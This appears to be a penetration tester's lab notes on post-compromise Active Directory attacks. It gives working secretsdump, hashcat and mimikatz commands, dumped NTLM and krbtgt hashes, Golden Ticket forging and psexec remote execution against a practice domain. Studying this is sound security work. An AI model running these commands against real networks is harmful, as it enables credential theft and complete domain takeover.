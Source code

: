 ## We own the domain now what?  
In the event we manage to compromise Domain and there is still time in the engagement, we will continue to provide as much value to the client as possible.  

1. Dump NTDS.dit and crack passwords.
2. Enumerate further shares for sensitive information such as PII data and other findings so that this can be reported.
3. Create persistence in the event our main access is lost and also remember to remove rouge Domain Admin accounts.
4. Test for detections espicially for DA account creations. A good environment should detect these account creations.
5. Creating a Golden Ticket.

---

## 🚩 Dumping the NTDS.dit

### What is NTDS.dit?  
An extremely critical and highly sensitive database used to store AD data within Active Directory / Domain Controllers:
* user information
* group information
* security descriptors
* password hashes

Using a **known domain admin account** we could use secretsdump and its switch of **-just-dc-ntlm** to dump out the DCs NTDS file. A successful Domain dump will contain a range of information from: SAM, credentials, domains, krbtgt, hashes, local account users, pc logins, and other accounts that may of been created from ipv6 / relayx + mitm6 relay attack.  

example:

    impacket-secretsdump / secretsdump - impacket-secretsdump MARVEL.local/pparker:'Password1'@192.168.64.139 -just-dc-ntlm

using our malicious domain admin account hawkeye against the DC, we succesfully dumped the local SAM and more importantly the NTDS.dit file. From the dump we also see 'kerberos keys' and also the krbtgt which could be later leveraged in a kerberos ticket attack.

    impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138

![image](https://github.com/user-attachments/assets/dfe18c4b-7172-4012-8155-1c74bbd42f97)

Using -just-dc-ntlm with secretsdump will only dump out the NTDS.dit, filtering out the other data as the name implies.  

    root@kali:/home/kali# impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@192.168.64.138 -just-dc-ntlm
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2617733570dcba888a76e40359f8a359:::
    MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
    MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
    MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
    avrrDOsNBw:1109:aad3b435b51404eeaad3b435b51404ee:253a38577fe79301cf439d788dfa3850:::
    hawkeye:1110:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
    HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:86757f6579150e5ef1901687a33b627b:::
    THEPUNISHER$:1107:aad3b435b51404eeaad3b435b51404ee:2338c61f1a4137c16acab764b8fe5022:::
    SPIDERMAN$:1108:aad3b435b51404eeaad3b435b51404ee:1d86510b8589eccf45424b657db6ab52:::
    [*] Cleaning up... 
    root@kali:/home/kali# 

Now that we have the NTLM hashes dumped out from the NTDS.dit, we should filter out the NT portions of the hashes in excel, place it in a .txt file and have it cracked with -m of 1000 (given they are just ntlm) using hashcat. With all the cracked passwords, we can place them back into excel to see the passwords to accounts and also for final reporting.  

![image](https://github.com/user-attachments/assets/bd6014ac-0ea6-472c-b1fb-27290f32b313)

    hashcat -m 1000 ntds111.txt 
    once finished
    hashcat -m 1000 ntds111.txt --show

![image](https://github.com/user-attachments/assets/8b8b4bfb-821c-449f-9edc-f909ce359101)

We can now apply the cracked passwords back to the excel and match the cracked passwords with the hashes through using =vlookup magic or bash script.   

### Note:  
ignore PC passwords, they are typically not going to be cracked and have low value in this scenario.

---

## 🚩 Golden Ticket Attacks  

### What is Golden Ticket Attacks?  
* when we compromise the krbtgt (kerboros ticket granting ticket) we essentially own the domains.
* we can request access to any resource or system on the domain.
* golden tickets == complete access to every machine.

### Why exploit Golden Tickets even when we own the Domain?
* laterally move into accounts that we may not be able to access using forged tickets.
* authenticate into accoutns without needing a password.
* if our domain account is removed, we can still gain access with a Golden Ticket creation, maintaining persistance.

**Using mimikatz.exe to generate Golden Tickets.** 
1. priv debug
2. lsadump for krbtgt account: to obtain sid, krbtgt ntlm hash
3. with the krbtgt hash we can use it to generate a Golden Ticket
4. use Golden Ticket to 'Pass the Ticket' to now access any machine within the domain
5. Golden Ticket can launch tools at machines or users in the same network without username / passwords - Gticket bypasses this requirement
6. when in any account, we could enumerate files and even spawn new shells

---

### Performing a Golden Ticket Attack with a Pass the Ticket attack  

1. On the DC we have obtained mimikatz.exe by GentleKiwi
3. We now aim to obtain the krbtgt account, Kerboros - ticket granting ticket account
4. This allows us to generate tickets if we have the hash of the krbtgt account
5. With the hash of the krbtgt account we can use it to access service and resource or create a 'Golden Ticket' and use that for access.

**From the DC, run cmd.exe as admin and the following:**  
    mimikatz.exe  
    privilige::debug  
    lsadump::lsa /inject /name:krbtgt  

![image](https://github.com/user-attachments/assets/7baacf00-be56-46aa-ba61-88670fbc1574)

**Here we have obtained the krbtgt details, and use these to 'Pass the Hash' to create a 'Golden Ticket Session':**  
user: krbtgt  
SID of Domain: S-1-5-21-277273238-679169888-2290246510  
ntlm hash: 2617733570dcba888a76e40359f8a359  
/id: 500 (admin account)  
/ptt:  pass the ticket  

**Generate a Golden Ticket and session with these details:**  

    mimikatz # kerberos::golden /User:FakeUser123 /domain:marvel.local /sid:S-1-5-21-277273238-679169888-2290246510 /krbtgt:2617733570dcba888a76e40359f8a359 /id:500 /ptt

![image](https://github.com/user-attachments/assets/668c803d-d4dc-4e3d-985f-a97a78ac3667)

**From this we have now obtained a Golden Ticket for our 'fakeuser123' in current session**  
pull up cmd with the newly created Golden Ticket session.
    
    misc::cmd
    *in new window*
    dir \\THEPUNISHER\c$

![image](https://github.com/user-attachments/assets/76543f30-69a5-4391-8f87-4b2ea17357d1)

We have gained access into THEPUNISHER machine. For further compromise of this user, we could install psexec.exe orr other a sysinternals tool on our attacker machine for remote code execution. Once downloaded, from the Golden Ticket, misc::cmd terminal we can use 'psexec.exe \\THEPUNISHER cmd.exe' to gain a reverse shell and functional interaction.  

---

**Conclusion:**
* Compromise a Domain Controller (DC) account.
* Hijack the krbtgt Ticket Granting Ticket (TGT) using lsadump.
* Use the krbtgt details to conduct a Pass-the-Hash (PTH) attack.
* Grant a Golden Ticket session with a fake user.
* With the Golden Ticket, access any service or resource due to having Ticket Granting Authority.
* Use the Golden Ticket session to gain access to THEPUNISHER machine.
* Enumerate shares on THEPUNISHER machine.
* With access to the shares, use PsExec or other remote code execution tools from the attacking terminal against THEPUNISHER.

